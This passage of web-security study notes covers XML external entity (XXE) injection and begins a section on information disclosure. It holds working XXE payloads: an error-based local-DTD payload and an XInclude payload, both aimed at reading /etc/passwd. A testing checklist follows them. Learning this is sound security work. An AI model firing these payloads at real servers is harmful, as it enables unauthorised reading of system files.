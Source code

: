 

            <!DOCTYPE message [
            <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
            <!ENTITY % ISOamso '
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            '>
            %local_dtd;
            ]>

- Finding hidden attack surface for XXE injection
    - XInclude attacks
        
            <foo xmlns:xi="http://www.w3.org/2001/XInclude">
            <xi:include parse="text" href="file:///etc/passwd"/></foo>
    
    - XXE attacks via file upload
    - XXE attacks via modified content type

## How to find and test for XXE vulnerabilities

- Testing for file retrieval by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well-known operating system file.

# Information disclosure vulnerabilities

![ID](id.png)

Information disclosure, also known as information leakage, is when a website unintentionally reveals sensitive information to its users.

- Data about other users, such as usernames or financial information
- Sensitive commercial or business data
- Technical details about the website and its infrastructure
    